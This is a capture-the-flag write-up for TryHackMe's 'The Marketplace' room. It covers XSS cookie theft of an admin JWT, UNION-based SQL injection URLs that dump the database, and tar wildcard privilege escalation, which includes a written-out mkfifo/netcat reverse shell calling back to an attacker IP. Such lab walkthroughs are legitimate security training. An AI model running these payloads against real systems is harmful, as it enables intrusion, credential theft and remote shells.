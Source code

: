 # The Marketplace

This is a write-up for the room on TryHackMe: [https://tryhackme.com/room/marketplace](https://tryhackme.com/room/marketplace)

Nmap scan: 4:22-4:43 5:52-6:23 6:42-7:45 8:44-9:11

```text
nmap -T4 -A 10.10.32.69 -oN nmapscan
```

Output of nmap scan:

```c
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-02 17:22 EDT
Nmap scan report for 10.10.32.69
Host is up (0.20s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
|_  256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
80/tcp    open  http    nginx 1.19.2
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-server-header: nginx/1.19.2
|_http-title: The Marketplace
32768/tcp open  http    Node.js (Express middleware)
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: The Marketplace
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.68 seconds
```

I started off by visiting the main page on port 80:

![](../../.gitbook/assets/image%20%28313%29.png)

There is a robots.txt, which was indicated in the nmap scan:

![](../../.gitbook/assets/image%20%28302%29.png)

This leads to the following:

![](../../.gitbook/assets/image%20%28315%29.png)

The same page is visible for the webserver on port 32768:

![](../../.gitbook/assets/image%20%28318%29.png)

I signed up and made a new listing on the site. I then added **&lt;script&gt;alert\(document.cookie\)&lt;/script&gt;**, in the title to see if I can get some information:

![](../../.gitbook/assets/image%20%28310%29.png)

I seem to get a token. I found out that this is JWT or JSON Web Token. When I decoded it, this was my result:

![](../../.gitbook/assets/image%20%28307%29.png)

I believe my next step is to change the payload data to have me be the admin, so I am allowed to view the page. I tried to modify the payload as admin, but I ended up failing. I found [this write-up](https://www.security-hive.com/post/tryhackme-the-marketplace-walkthrough), that led me to a website: [https://github.com/s0wr0b1ndef/WebHacking101/blob/master/xss-reflected-steal-cookie.md](https://github.com/s0wr0b1ndef/WebHacking101/blob/master/xss-reflected-steal-cookie.md). Using the github link, I first **ran the python script** mentioned in the github page, and then I tried the first option:

![](../../.gitbook/assets/image%20%28301%29.png)

I then got this response from the website:

![](../../.gitbook/assets/image%20%28293%29.png)

I then tried it again, this time removing the alert box code:

![](../../.gitbook/assets/image%20%28316%29.png)

I then submitted the listing. Based on the hint from TryHackMe, I then reported this listing to the admins. 

![](../../.gitbook/assets/image%20%28306%29.png)

At this point, I realized that I was making a mistake, and that I was entering the IP of the server itself, and not my own IP from TryHackMe. I then corrected my javascript:

![](../../.gitbook/assets/image%20%28296%29.png)

When I reported it this time to the admin, I got the cookie using the python script from the GitHub page:

![](../../.gitbook/assets/image%20%28300%29.png)

I entered this in [jwt.io](https://jwt.io/#debugger-io), and got the following result:

![](../../.gitbook/assets/image%20%28299%29.png)

We can see the username of the admin is michael. I then logged out of the account. I then logged in using credentials I had made previously, **test:test**, and when the following prompt came up in burpsuite \(I used the burpsuite browser for this part\), I modified it to use the cookie of the admin: 

![](../../.gitbook/assets/image%20%28320%29.png)

I was then in:

![](../../.gitbook/assets/image%20%28311%29.png)

In order to access **/admin**, you have to manually force the admin cookie in bupsuite. After I did that, I got to the following site:

![](../../.gitbook/assets/image%20%28319%29.png)

I did the same for the **Administration Panel**, and got the first flag:

![](../../.gitbook/assets/image%20%28314%29.png)

I see that jake is also an administrator. After a while, viewing [this write-up](https://www.security-hive.com/post/tryhackme-the-marketplace-walkthrough), made me realize that I should focus more on the SQL Injection than the user jake. Using the same write-up I ended up finding about the following web query:

```c
http://10.10.8.149/admin?user=-2+union+select+1,(SELECT+group_concat(table_name)+from+information_schema.tables+where+table_schema=database()),3,4
```

This led to the output that tolds what table names there are:

![](../../.gitbook/assets/image%20%28317%29.png)

Running the following web query led to the column names:

```c
http://10.10.8.149/admin?user=-2+union+select+1,(SELECT+group_concat(column_name)+from+information_schema.columns+where+table_schema=database()),3,4
```

![](../../.gitbook/assets/image%20%28322%29.png)

From the write-up, the author then went on to make this query:

```c
http://10.10.8.149/admin?user=-2+union+select+1,(SELECT+message_content+FROM+messages+WHERE+ID=1),3,4
```

This led to the following output:

![](../../.gitbook/assets/image%20%28309%29.png)

This seems to be the SSH password for a user. The credentials worked for jake:

![](../../.gitbook/assets/image%20%28298%29.png)

The user.txt file was in the directory you enter in:

![](../../.gitbook/assets/image%20%28304%29.png)

I then ran **sudo -l** to find out what actions we have as a sudoer:

![](../../.gitbook/assets/image%20%28321%29.png)

I found out we have a file we have access to read. We do not have access to edit the file. I found [this website](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/), based on a couple of the write-ups I had read online, that talked about exploiting wildcards for privilege escalation. I followed the commands from the website:

I first ran `cat /etc/cron` and got the following output:

![](../../.gitbook/assets/image%20%28295%29.png)

There does not seem to be anything of importance here, so I moved on to the next step, which was creating a msfvenom payload:

![](../../.gitbook/assets/image%20%28294%29.png)

We then copy the **mkfifo** output \(previous image\) into the jake user's shell \(in the **/opt/backups** directory\). I then ran the following commands, going off of [this write-up](https://yebberdog.medium.com/tryhackme-the-marketplace-writeup-3397db0c6dfb):

```c
echo "mkfifo /tmp/rtez; nc 10.2.54.229 4444 0</tmp/rtez | /bin/sh >/tmp/rtez 2>&1; rm /tmp/rtez" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
sudo -u michael ./backup.sh
```

{% hint style="warning" %}
I ran into an issue here where I was not able to backup the files. I kept getting an error, in order to fix it, I moved **backup.tar** to **bkup.tar**. I then ran the **sudo** command once again and got the reverse shell. Source: [https://www.infosecarticles.com/tryhackme-the-marketplace-walkthrough/](https://www.infosecarticles.com/tryhackme-the-marketplace-walkthrough/)
{% endhint %}

After I ran the aforementioned commands, I had a reverse shell:

![](../../.gitbook/assets/image%20%28312%29.png)

I then spawned a python shell here running the following command, from [this website](https://netsec.ws/?p=337):

```python
python -c 'import pty; pty.spawn("/bin/sh")'
```

After I got the shell, I tried to run **sudo -l**, but that did not work out for me. I had to get the shell again and start over. I read [a write-up](https://www.infosecarticles.com/tryhackme-the-marketplace-walkthrough/) and found out we are part of the docker group. I also found out that I made a mistake copying a command from GTFOBins \(for the **docker** command\):

![](../../.gitbook/assets/image%20%28297%29.png)

I was not supposed to use sudo for this. I was then able to get the flag:

![](../../.gitbook/assets/image%20%28305%29.png)



